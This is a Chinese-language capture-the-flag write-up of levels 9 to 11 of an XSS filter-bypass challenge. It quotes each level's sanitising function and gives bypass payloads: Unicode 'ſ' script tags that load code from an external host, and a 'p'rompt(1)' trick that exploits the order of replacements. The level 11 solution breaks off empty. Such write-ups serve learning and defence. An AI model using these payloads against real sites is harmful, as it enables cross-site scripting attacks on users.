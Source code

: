 ## level9 ##
```
function escape(input) {
    // filter potential start-tags
    input = input.replace(/<([a-zA-Z])/g, '<_$1');
    // use all-caps for heading
    input = input.toUpperCase();

    // sample input: you shall not pass! => YOU SHALL NOT PASS!
    return '<h1>' + input + '</h1>';
}        
```
简单的正则过滤，由<(开始的后面加任意字母的时候，中间都加一个_。
这里无法注入html的标签，但是toUppercase支持unicode字符，字符ſ经过函数toUpperCase()处理后，会变成ASCII码字符"S"。
```
<ſcript/ſrc=//⒕₨></ſcript>
```
或者使用async
```
<ſcript/async/src=//⒛₨>
```
官方的解释是这样的：
The special part here is the transformation behavior. Not all Unicode characters have matching representations when casted to capitals - so browsers often tend to simply take a look-alike, best-fit mapping ASCII character instead. There's a fairly large range of characters with this behavior and all browsers do it a bit differently.
## level10 ##
```
Text Viewer
function escape(input) {
    // (╯°□°）╯︵ ┻━┻
    input = encodeURIComponent(input).replace(/prompt/g, 'alert');
    // ┬──┬ ﻿ノ( ゜-゜ノ) chill out bro
    input = input.replace(/'/g, '');

    // (╯°□°）╯︵ /(.□. \）DONT FLIP ME BRO
    return '<script>' + input + '</script> ';
}  
```
这里会把prompt替换为alert，然后把'替换为空，但是因为替换顺序问题，所以出现了特殊的绕过方式，构造payload：
```
p'rompt(1)
```
## level11 ##
```
function escape(input) {
    // name should not contain special characters
    var memberName = input.replace(/[[|\s+*/\\<>&^:;=~!%-]/g, '');

    // data to be parsed as JSON
    var dataString = '{"action":"login","message":"Welcome back, ' + memberName + '."}';

    // directly "parse" data in script context
    return '                                \n\
<script>                                    \n\
    var data = ' + dataString + ';          \n\
    if (data.action === "login")            \n\
        document.write(data.message)        \n\
</script> ';
}     
```
这道题过滤了几乎所有的符号，只有（）可以用，这里要用个黑科技，让字母有操作符的功能，就是in.
```
```